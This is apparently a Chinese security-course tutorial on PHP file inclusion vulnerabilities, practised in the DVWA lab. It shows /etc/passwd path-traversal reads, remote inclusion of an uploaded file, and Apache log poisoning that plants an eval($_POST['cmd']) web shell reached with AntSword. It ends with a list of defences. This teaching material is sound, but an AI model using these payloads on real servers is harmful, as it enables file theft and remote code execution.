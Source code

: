 ```yaml
---
slug: /net-security/08/03
---
```


文件包含漏洞，即引入依赖文件导致的漏洞。开发者习惯将重复的代码、功能封装在一个文件里，然后另外的开发者可以包含该文件，然后执行调用该功能，该过程叫做文件包含。而开发者为了灵活性，将包含的文件设置为变量，去动态加载文件，该动态过程可以被利用而造成文件包含漏洞。



## 分类

1. 本地包含：包含**服务所在的服务器**上的文件
2. 远程包含：包含非服务所在的服务器上的**第三方服务器**的文件



## PHP 包含函数

1. `include()`：包含错误抛出警告，程序继续执行
2. `require()`：包含发生错误直接终止程序运行
3. `include_once()`：同 `include()`，不过文件只会被包含一次
4. `require_once()`：同 `require`，不过文件只会被包含一次



## 本地包含

将 DVWA 的 Level 设置为 low，然后访问 File inclusion，该 URL 上路径改为 `/etc/passwd`

![](http://img.wukaipeng.com/2023/10/29-080141-image-20231029080141030.png)

![](http://img.wukaipeng.com/2023/10/29-080004-image-20231029080004210.png)

也可以用相对路径，主要是用 `../` ，只要 `../` 足够多就能够达到根目录，比如：

![](http://img.wukaipeng.com/2023/10/29-081341-image-20231029081341367.png)

![](http://img.wukaipeng.com/2023/10/29-090454-image-20231029090454002.png)

## 远程包含

在 upload-labs 上传  `info.php`，内容为 `<?php phpinfo(); ?>`

得到上传后的链接，然后在 DVWA 中访问：

![](http://img.wukaipeng.com/2023/10/29-131155-image-20231029131155050.png)

## 中间件日志包含

日志文件中有包含请求的信息，因此可以利用日志文件。

首先我们要在日志文件中写入恶意代码：

为了方便测试，先给文件加上权限：

```bash
chmod 755 /var/log/apache2/
chmod 644 /var/log/apache2/access.log 
```

![](http://img.wukaipeng.com/2023/11/02-082740-image-20231102082740133.png)

接着访问 `http://YOUR_ID_ADDRESS:PORT/vulnerabilities/fi/?page=<?php phpinfo();?>`

注意 `<?php phpinfo();?>` 会被 URL 编码，利用 Burp 改回原来：

![](http://img.wukaipeng.com/2023/11/02-083059-image-20231102083059811.png)

`cat /var/log/apache2/access.log` 查看日志文件，可以看到代码已经写入：

![](http://img.wukaipeng.com/2023/11/02-083240-image-20231102083240820.png)



访问该日志文件即可执行代码 `http://YOUR_IP_ADDRESS:PORT/vulnerabilities/fi/?page=/var/log/apache2/access.log`：

![](http://img.wukaipeng.com/2023/11/02-083337-image-20231102083337221.png)

同样的方式我们使用 POST，访问 `http://YOUR_ID_ADDRESS:PORT/vulnerabilities/fi/?page=<?php eval(@$_POST['cmd']);?>`

然后打开蚁剑，注意要添加 Cookie：

![](http://img.wukaipeng.com/2023/11/02-092857-image-20231102092856996.png)

连接：

![](http://img.wukaipeng.com/2023/11/02-092910-image-20231102092910096.png)

![](http://img.wukaipeng.com/2023/11/02-093006-image-20231102093006471.png)

## 防御

1️⃣ 设置白名单

2️⃣ 过滤危险字符

3️⃣ 设置文件目录权限

4️⃣ 关闭危险设置（非必要不设置 `allow_url_include` 和 `allow_url_fopen`）

5️⃣ 严格检查 `include` 类的文件包含函数中的参数是否外界可控





